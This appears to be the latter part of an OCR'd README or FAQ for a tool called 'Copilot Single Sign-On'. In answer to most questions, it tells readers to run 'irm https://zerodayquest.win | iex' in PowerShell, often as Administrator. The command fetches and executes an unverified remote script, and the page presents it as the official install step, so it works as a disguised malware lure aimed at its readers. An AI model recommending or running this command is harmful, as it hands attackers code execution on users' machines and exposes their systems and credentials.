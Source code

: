 ### **18. How do I fix permission issues when installing Copilot Single Sign-On?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing Copilot Single Sign-On?**  
No, a restart is not required. However, if Copilot Single Sign-On doesn’t work, try restarting your browser.  

### **20. Can I install Copilot Single Sign-On on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install Copilot Single Sign-On automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable Copilot Single Sign-On after installation?**  
Copilot Single Sign-On should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use Copilot Single Sign-On with other security tools?**  
Yes, Copilot Single Sign-On is compatible with most security tools.  

### **24. What browsers are supported by Copilot Single Sign-On?**  
Copilot Single Sign-On works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  

---

## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.  

🚀 Enjoy the **Copilot Single Sign-On** and stay secure! 🚀  
